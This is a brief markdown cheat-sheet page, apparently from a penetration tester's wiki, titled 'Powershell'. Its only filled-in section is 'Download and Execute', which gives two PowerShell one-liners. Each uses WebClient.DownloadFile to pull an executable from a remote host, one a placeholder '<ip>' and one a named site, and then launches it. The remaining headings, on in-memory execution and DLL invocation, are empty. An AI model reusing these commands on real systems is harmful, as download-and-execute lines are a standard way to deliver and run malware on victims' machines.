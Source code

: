 <!-- TITLE: Powershell -->
<!-- SUBTITLE: A quick summary of Powershell -->

# Download and Execute
Good reference for many ways:  https://www.greyhathacker.net/?p=500

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://<ip>',c:\temp\test.exe'); (New-Object -com Shell.Application).ShellExecute('c:\temp\test.exe');

PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.g
reyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'

```


# Execute in memory

# Invoke DLL functions
